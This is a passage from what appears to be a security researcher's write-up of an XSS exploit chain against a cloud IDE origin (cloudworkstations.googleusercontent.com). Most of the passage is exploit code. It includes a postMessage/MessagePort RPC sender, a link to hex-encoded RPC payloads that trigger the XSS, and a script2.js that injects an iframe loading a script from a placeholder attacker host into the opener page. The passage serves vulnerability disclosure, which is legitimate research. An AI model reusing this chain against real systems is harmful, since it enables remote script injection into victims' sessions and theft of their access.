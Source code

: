 ````js
        // console.log("%csent: " + decode(rawmsg), "color: gray")
        port.postMessage(rawmsg)
        await sleep(5)
    }
}

// Obtains the port information and calls the send_map()
window.addEventListener("message", function add_port(e) {
    if (e.ports.length > 0) {
        window.removeEventListener("message", add_port)
        const port = e.ports[0]
        window.port = port
        port.onmessage = port_listener
        send_map()
    }
})
````

Everything is same as Matan's poc only.

<https://gist.githubusercontent.com/Sudistark/a643a2e8216e5a93f92bde9121333337/raw/b100c95bcb227ad70e64518ff370f3a07cc7a23f/pwn-idx.txt> contains the hex encoded serialized rpc messages to trigger the XSS.

 > 
 > script2.js

````js
if (top.window.opener) {
   // Change this to the full URL pointing to the script2.js file
    var script_url = 'https://<attacker-host>/script1.js';

    data = {action:"redirect",url:origin};
    top.window.opener.postMessage(data, '*');

    function sendExploit() {
        clearInterval(checkLocation);
        top.window.opener.document.body.innerHTML = `<iframe srcdoc="sss<script src='${script_url}'></script>"/>`
    }

    checkLocation = setInterval(() => {
        if(top.window.opener.origin == origin){
        sendExploit();
        }
    }, 100);
}
````

The exploit code in `ipynb` file would execute the above code , it basically loads the `script2.js` and also sends a *postMessage* to the `top.window.opener` page which points to the initial exploit.html endpoint. We are redirecting that page to the same `*.cloudworkstations.googleusercontent.com` origin as rest of exploitation will be happening there only
